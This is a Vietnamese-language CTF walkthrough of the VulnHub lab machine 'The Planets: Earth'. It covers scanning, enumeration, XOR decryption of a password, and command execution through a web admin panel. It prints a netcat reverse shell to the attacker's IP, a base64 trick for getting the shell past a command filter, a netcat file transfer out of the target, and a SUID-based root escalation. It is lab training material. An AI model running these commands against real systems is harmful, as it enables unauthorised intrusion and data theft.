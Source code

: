 ```yaml
---
title: "The Planets: Earth Writeup - VulnHub"
date: "2023-07-23 17:18:03"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - The Planets
  - hacking
---
```


Download [THE PLANETS: EARTH](https://www.vulnhub.com/entry/the-planets-earth,755/)

**Level**: Easy

## Scanning

Tiến hành scan ip máy chủ mục tiêu

```shell
sudo netdiscover -i eth0 -r 10.0.2.0/24
```

![scan ip](/posts/earth-walkthrough/scan-ip.png)

Target IP là `10.0.2.6`. Tiến hành scan all ports:

```shell
nmap -sC -sV 10.0.2.6 -p- -A -T4
```

Đọc thêm về `nmap` tại [đây](/posts/nmap-network-scanner/)

![scan ports](/posts/earth-walkthrough/scan-ports.png)

Chúng ta có thể thấy có 3 port đang mở: 22, 80 và 443. Ngoài ra, phát hiện thêm có domain name `earth.local` và subdomain `terratest.earth.local`.

Truy cập ip máy chủ web cổng 80 và 443 thấy không có gì đặc biệt. Nhưng từ ssl certificate ta khai được ở trên, có thể thêm 2 entries này vào `/etc/hosts` và truy cập.

```shell
echo "10.0.2.6 earth.local" >> /etc/hosts && echo "10.0.2.6 terratest.earth.local" >> /etc/hosts
```

![add hostname](/posts/earth-walkthrough/add-hostname.png)

![earth.local](/posts/earth-walkthrough/earth.local.png)

![terratest.earth.local](/posts/earth-walkthrough/terratest.earth.local.png)

## Enumeration

Ở trang `earth.local` phía dưới có 4 dòng message đã được encrypted, liệu có gì ẩn ý trong đây. Vẫn chưa tìm thấy đủ thông tin nên ta tiếp tục khai thác, tiến hành enumerate directories ở cả 2 domain.

![terratest enumeration](/posts/earth-walkthrough/terratest-enum.png)

![earth enumeration](/posts/earth-walkthrough/earth-enum.PNG)

Ta tìm được trang admin login và 1 trang robots.txt. Truy cập _https://terratest.earth.local/robots.txt_ xem thu thập được manh mối nào không.

![robots.txt](/posts/earth-walkthrough/robots.txt.png)

Enum các extension cho file này, cuối cùng nhận được response 200 từ `testingnotes.txt`.

![testingnotes](/posts/earth-walkthrough/testingnotes.PNG)

Từ notes trên ta có thể xác định được rằng thuật toán mã hóa message sử dụng XOR, và nội dung file `testdata.txt` có thể là key. Ngoài ra, xác định được username của admin là `terra`.

![testdata](/posts/earth-walkthrough/testdata.PNG)

Ném từng cái encrypted message vào XOR với key (nội dung file `testdata.txt` trên).

![decode message](/posts/earth-walkthrough/decode-message.PNG)

=> Thu được 1 chuỗi lặp lại "`earthclimatechangebad4humans`". Dùng chuỗi này làm password cho user `terra` để đăng nhập trang /admin

![admin](/posts/earth-walkthrough/admin.PNG)

Login admin thành công! Tại đây có thể chạy câu lệnh từ input và click `Run command` sẽ trả về kết quả.

```shell
find / -name 'user_flag.txt' -exec cat {} \;
```

![user_flag.txt](/posts/earth-walkthrough/user_flag.PNG)

User Flag: [user_flag_3353b67d6437f07ba7d34afd7d2fc27d]

## RCE

Tạo 1 listener trên port 9005

```shell
nc -nlvp 9005
```

Thử spawn reverse shell `nc 10.0.2.15 9005 -e /bin/bash`.

![remote forbidden](/posts/earth-walkthrough/remote-forbidden.PNG)

Bị forbidden ư? Làm thế nào để bypass đây. Chợt nhớ ra ta có thể bypass kí tự đặc biệt bằng cách encode base64 câu lệnh, decode và đồng thời đưa nó vào shell thực thi thông qua pipeline `|`.

```shell
┌──(kali㉿kali)-[~]
└─$ echo "nc 10.0.2.15 9005 -e /bin/bash" | base64
bmMgMTAuMC4yLjE1IDkwMDUgLWUgL2Jpbi9iYXNoCg==
```

Spawn Reverse Shell

```shell
echo "bmMgMTAuMC4yLjE1IDkwMDUgLWUgL2Jpbi9iYXNoCg==" | base64 -d | bash
```

![remote forbidden](/posts/earth-walkthrough/RCE.PNG)

RCE thành công! Nhiệm vụ tiếp theo là leo root và tìm root flag.

## Privilege Escalation

`apache` là user hiện tại, mục tiêu của chúng ta là leo lên quyền cao nhất - root.

Đầu tiên, liệt kê tất cả các file có suid

```shell
find / -perm -u=s 2>/dev/null
```

![find-suid-perm](/posts/earth-walkthrough/find-suid-perm.png)

Check thấy 1 file lạ `reset_root`, nhìn cũng có vẻ hấp dẫn

Phân tích thấy đây là 1 file thực thi và có chức năng reset password cho `root`.

![analyze-reset-root](/posts/earth-walkthrough/analyze-reset-root.PNG)

Chạy thử và bị failed

![run-reset-root](/posts/earth-walkthrough/run-reset-root.PNG)

Để phân tích được rõ ràng hơn, ta sẽ sử dụng `ltrace`.

Nhưng trước tiên phải truyền file `reset_root` về máy local để phân tích. Searching 1 lúc thấy `netcat` có thể làm được điều này. Đọc thêm [tại đây](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)

Tại máy local

```shell
nc -l -p 1234 -q 1 > reset_root < /dev/null
```

Tại máy gửi

```shell
cat /usr/bin/reset_root | netcat 10.0.2.15 1234
```

Sau khi transfer thành công, thêm quyền thực thi và dùng `ltrace` phân tích ta thu được:

![ltrace-reset-root](/posts/earth-walkthrough/ltrace-reset-root.png)

Hóa ra là máy chủ chỉ kiểm tra các file mình khoanh đỏ ở trên có tồn tại hay không thôi, nếu tồn tại, các câu lệnh phía dưới sẽ được thực thi, và mật khẩu root sẽ được reset về `Earth`.

Giờ quay lại máy chủ mục tiêu và tạo các file đó, sau đó chạy lại file thực thi.

![reset-root-successfully](/posts/earth-walkthrough/reset-root-successfully.PNG)

Quào, `su root` với password là `Earth` và get root flag thoaiii

![root-flag](/posts/earth-walkthrough/root-flag.PNG)

Root Flag: [root_flag_b0da9554d29db2117b02aa8b66ec492e]
